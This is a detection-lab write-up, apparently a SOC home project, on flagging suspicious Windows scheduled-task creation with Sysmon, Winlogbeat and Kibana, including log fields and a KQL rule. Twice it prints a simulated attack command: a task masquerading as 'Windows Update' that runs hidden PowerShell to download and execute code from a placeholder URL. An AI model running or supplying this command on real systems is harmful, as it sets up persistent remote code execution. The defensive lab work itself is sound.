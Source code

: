 # 🕒 Creation of Suspicious Scheduled Task

## 📌 Objective  
Detect the creation of suspicious scheduled tasks on a Windows system using **Sysmon**, **Winlogbeat**, **Elasticsearch**, and **Kibana**.

---

## 🧪 What Was Done

### 🧰 Simulated Suspicious Scheduled Task Creation:
Created a scheduled task named **"Windows Update"** that runs a PowerShell command:

```cmd
    schtasks /create /tn "Windows Update" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://malicious-url')" /sc minute /mo 1
```
# ⚙️ Configuration and Detection of Suspicious Scheduled Task

## ⚙️ Configured Sysmon
Ensured Sysmon was set to log **process creation events** (`Event ID 1`).

## 📤 Configured Winlogbeat
Forwarded **Sysmon logs** and **Windows Security logs** to **Elasticsearch**.

---

## 👁️ What Was Observed in the Logs

✅ **Sysmon Logs Captured**:

- **Event ID 1** – Process creation for `schtasks.exe` and `powershell.exe`.  
- **Event ID 4698** – Scheduled task creation event.

### 📝 Suspicious Scheduled Task - Summary

- 📅 **Timestamp**: `2025-05-24T09:47:45.606Z`
- 🧍 **User**: `VITICM-SOC\ranga`
- 💻 **Hostname**: `viticm-soc`
- 🛠️ **Process Created**: `schtasks.exe`
- 🔢 **Process ID**: `7680`
- 🧬 **Process GUID**: `{7e25c1a1-95c1-6831-f203-000000002600}`
- 📁 **Executable Path**: `C:\Windows\System32\schtasks.exe`
- 📜 **Command Line**:
  ```powershell
  schtasks /create /tn "Windows Update" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://malicious-url')" /sc minute /mo 1

```
```
# 🧠 How SIEM Flagged the Event
# KQL String
event.code : "1"  AND process.name: "schtasks.exe"

---

## 🔔 Alert Details

- **Rule Name**: Creation of Suspicious Scheduled Task  
- **Event IDs**: 1 (Sysmon), 4698 (Windows Security)  
- **Description**: A new scheduled task was created, which may indicate suspicious activity.

---

## 📊 Data Source Mapping

| 🔍 Log Source       | 📂 Event Type           | 🆔 Event ID | 📄 Description                          |
|---------------------|-------------------------|-------------|------------------------------------------|
| Sysmon              | Process Creation         | 1           | Logs the creation of new processes.      |
| Windows Security    | Scheduled Task Creation | 4698        | Logs the creation of scheduled tasks.    |
| Winlogbeat          | Log Forwarding           | -           | Forwards all events to Elasticsearch.    |

---

## 📩 Sample Alert

![Screenshot 2025-05-24 203849](https://github.com/user-attachments/assets/fa96a21a-fe65-4d40-944e-e2a49f817db9)



---

## 🛡️ Analyst Action on Alert

- ✅ Reviewed the alert in **Kibana**  
- ✅ Investigated the scheduled task details and **command-line arguments**  
- ✅ Checked the **associated process and user context** for signs of malicious behavior

---

## ⚠️ Possible False Positives

| 🧩 Scenario         | 📌 Description                                         |
|---------------------|--------------------------------------------------------|
| Legitimate Updates  | Tasks created by admins for system updates.           |
| IT Automation       | Tasks made by automation tools for maintenance.       |
| User Activity       | Users creating tasks for personal or work needs.      |

---

## 🛠️ Recommendations

- ✅ **Whitelist Trusted Tasks**  
  Identify and whitelist known tasks created by trusted tools.

- 🧠 **Contextual Analysis**  
  Analyze command-line arguments and related processes to verify intent.

- 🔁 **Regular Rule Tuning**  
  Continuously refine detection rules to minimize false positives.
  

---

## 🧪 Detection Status

✅ **Successfully Triggered**

- Sysmon logged task creation via **Event ID 1**  
- Windows Security logged the event with **Event ID 4698**  

